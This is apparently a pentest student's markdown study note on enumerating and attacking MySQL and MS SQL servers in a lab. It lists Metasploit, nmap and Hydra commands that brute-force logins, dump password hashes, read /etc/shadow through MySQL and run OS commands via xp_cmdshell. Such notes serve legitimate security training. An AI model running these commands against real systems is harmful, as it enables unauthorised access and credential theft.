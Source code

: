 ```yaml
---
id: vp7jwjl59wofdi3thybkig5
title: Enumerating_mysql
desc: ''
updated: 1675114008202
created: 1675113997504
---
```

# Enumeration - Mysql

## Mysql

* Msfconsole
    * setg rhosts 192.155.166.3 (sets hosts globally)
    * advanced — advances options
    * Use auxiliary/scanner/mysql/mysql_writable_dirs , set rhosts 192.155.166.3, set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt, set password “”
    * use auxiliary/scanner/mysql/mysql_hashdump, set username root, set password “”
* Login directly to mysql and enumerate info
    * select load_file("/etc/shadow"); — see if OS files can be loaded
        * Understanding /etc/shadow file password: https://www.shellhacks.com/linux-generate-password-hash/ 
            * $ID$SALT$HASH
* Nmap
    * nmap 192.155.166.3 -sV -p 3306 --script=mysql-empty-password
    * nmap 192.155.166.3 -sV -p 3306 --script=mysql-info
    * nmap 192.155.166.3 -sV -p 3306 --script=mysql-users --script-args="mysqluser=root, mysqlpass=''"
    * nmap 192.155.166.3 -sV -p 3306 --script=mysql-databases --script-args="mysqluser=root, mysqlpass=''"
    * nmap 192.155.166.3 -sV -p 3306 --script=mysql-variables --script-args="mysqluser=root, mysqlpass=''"
    * nmap 192.155.166.3 -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root', mysql-audit.password='',mysql-audit-filename='usr/share/nselib/data/mysql-cis.audit" (couldn’t get to work, needs trial and error)
    * nmap 192.155.166.3 -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"
* Dictionary attack for mysql
        * Msfconsole; use auxiliary/scanner/mysql/mysql_login; set host <target>; set pass_file /usr/share/metasploit_framework/data/wordlists/unix_password.txt; set username root; run
        * Hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_password.txt <target> mysql


## MS SQL Recon

### NMAP:

* nmap 10.3.25.150 -p 1433 -sV --script ms-sql-info
* nmap 10.3.25.150 -p 1433 -sV --script ms-sql-ntlm-info
* nmap 10.3.25.150 -p 1433 -sV --script ms-sql-empty-password
* nmap 10.3.25.150 -p 1433 -sV --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
* Run query from nmap: nmap 10.3.25.150 -p 1433 -sV --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query='SELECT * FROM  master..syslogins' -oN output.txt
* nmap 10.3.25.150 -p 1433 -sV --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
* RUN CMDS FROM NMAP: nmap 10.3.25.150 -p 1433 -sV --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"

### Metasploit:

* use auxiliary/scanner/mssql/mssql_login; set user_file /root/Desktop/wordlist/common_users.txt; set pass_file /root/Desktop/wordlist/100-common-passwords.txt
* use auxiliary/admin/mssql/mssql_enum
* use auxiliary/admin/mssql/mssql_exec; set cmd whoami
* use auxiliary/admin/mssql/mssql_enum_domain_accounts
